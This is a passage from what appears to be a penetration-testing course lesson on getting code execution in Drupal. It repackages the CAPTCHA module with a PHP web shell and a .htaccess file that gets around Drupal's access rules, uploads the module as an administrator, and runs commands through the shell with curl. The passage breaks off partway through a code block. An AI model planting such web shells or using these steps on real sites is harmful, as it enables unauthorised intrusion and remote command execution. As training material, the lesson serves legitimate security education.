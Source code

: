 <p>With either of these examples, we should keep our client apprised and obtain permission before making these sorts of changes. Also, once we are done, we should remove or disable the <code>PHP Filter</code> module and delete any pages that we created to gain remote code execution.</p>
<hr/>
<h2>Uploading a Backdoored Module</h2>
<p>Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as <a href="https://www.drupal.org/project/captcha">CAPTCHA</a>. Scroll down and copy the link for the tar.gz <a href="https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz">archive</a>.</p>
<p>Download the archive and extract its contents.</p>
<pre><code class="language-shell-session">[!bash!]$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
[!bash!]$ tar xvf captcha-8.x-1.2.tar.gz
</code></pre>
<p>Create a PHP web shell with the contents:</p>
<pre><code class="language-php">&lt;?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?&gt;
</code></pre>
<p>Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.</p>
<pre><code class="language-html">&lt;IfModule mod_rewrite.c&gt;
RewriteEngine On
RewriteBase /
&lt;/IfModule&gt;
</code></pre>
<p>The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.</p>
<pre><code class="language-shell-session">[!bash!]$ mv shell.php .htaccess captcha
[!bash!]$ tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

&lt;SNIP&gt;
</code></pre>
<p>Assuming we have administrative access to the website, click on <code>Manage</code> and then <code>Extend</code> on the sidebar. Next, click on the <code>+ Install new module</code> button, and we will be taken to the install page, such as <code>http://drupal.inlanefreight.local/admin/modules/install</code> Browse to the backdoored Captcha archive and click <code>Install</code>.</p>
<img class="website-screenshot" data-url="http://drupal.inlanefreight.local/core/authorize.php" src="/storage/modules/113/module_installed.png"/>
<p>Once the installation succeeds, browse to <code>/modules/captcha/shell.php</code> to execute commands.</p>
<pre><code class="language-shell-session">[!bash!]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
